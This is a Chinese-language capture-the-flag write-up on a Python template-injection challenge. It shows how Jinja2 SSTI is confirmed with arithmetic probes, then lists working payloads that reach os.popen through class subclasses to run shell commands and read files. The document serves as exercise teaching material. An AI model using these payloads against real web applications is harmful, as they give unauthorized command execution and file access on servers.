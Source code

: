 # Web_python_template_injection

首先我试试一些页面, 返回:

```
URL http://111.200.241.244:51903/robots.txt not found
```

因为题目提示本题是 `Web_python_template_injection`. 那就可以试一些 `SSTI` 的 `payload`, 用 `/{{7*7}}` 返回:

```
URL http://111.200.241.244:51903/49 not found
```

试 `/{{7*'7'}}` 返回:

```
URL http://111.200.241.244:51903/7777777 not found
```

可以确认是 `Jinja2` 模版. (参考 [payloads all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2))

接下来查看所有模块:

```
{{ [].__class__.__base__.__subclasses__()}}
{{ {}.__class__.__base__.__subclasses__()}}
{{ ().__class__.__base__.__subclasses__()}}
{{ ''.__class__.__base__.__subclasses__()}}
```

这四种符号开头都是可以执行的.在本题中利用 `''` 来构建语句会产生报错, 其余不会报错.

```
__class__ 返回类型所属的对象
__base__  返回该对象所继承的基类
__subclasses__ 每个新类都保留了子类的引用,这个方法返回一个类中仍然可用的引用列表
```

一些可以利用:

```
[71]对应 site._Printer
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
```

```
[76]对应 site.Quitter
{{[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].popen('ls').read()}}
```

```
[40]对应 type file, 可以实现文件包含
{{[].__class__.__base__.__subclasses__()[40]('fl4g').read()}}
```

